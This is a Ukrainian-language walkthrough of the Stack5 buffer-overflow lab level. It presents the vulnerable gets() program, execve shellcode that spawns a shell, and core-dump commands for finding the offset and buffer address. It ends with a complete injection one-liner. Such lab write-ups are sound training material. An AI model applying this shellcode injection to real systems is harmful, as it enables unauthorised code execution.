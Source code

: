 # STACK5

На цьому рівні розглядається стандартне переповнення буфера, на цей раз введення шелл-коду.

Вихідний код для Stack5:
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
У цій вправі ми нарешті переходимо до виконання довільного коду замість того, щоб покладатися на код, який уже є в самій програмі. Для цього можна використати вразливість переповнення, щоб помістити шелл-код у стек і вказати EIP туди, куди ми помістимо код. Ми можемо приступити до написання та компіляції власного шелл-коду, але для такої простої ситуації, як ця, можна просто взяти шелл-код на один рядок з Інтернету:

shellcode (https://www.vividmachines.com/shellcode/shellcode.html):

```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80
```

На відміну від попереднього прикладу, ми будемо використовувати дампи ядра для аналізу замість прямого налагодження, щоб зафіксувати стан пам'яті програми точно так, як він виглядає під час нормального виконання:

```
ulimit -c unlimited
python -c "print('B' * 76 + 'AAAA')" | ./stack5
```

Наведені вище команди вмикають дамп ядра та генерують його, запускаючи переповнення в ./stack5. Завантажимо згенерований дамп ядра і знайдемо буфер:

```
gdb ./stack5 /tmp/core.11.stack5.1494 -q
x/24x $esp-96
```
![image](https://user-images.githubusercontent.com/47494881/147508435-d77df8e5-44ef-40bd-ab9c-07b98428d8a3.png)

Як видно на рисунку, програма вже намагалася виконати адресу 0x41414141 ('AAAA'), тому зміщення правильні. Буфер користувача починається з 0xbffffc60. 

Отже, маємо:
```
(python -c "print('\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80' + '\xcc' * (76 - 24) + '\xbf\xff\xfc\x60'[::-1])"; cat) | ./stack5
```

![image](https://user-images.githubusercontent.com/47494881/147508470-9ceebaef-5e56-4bed-9b3c-df126ddc8729.png)
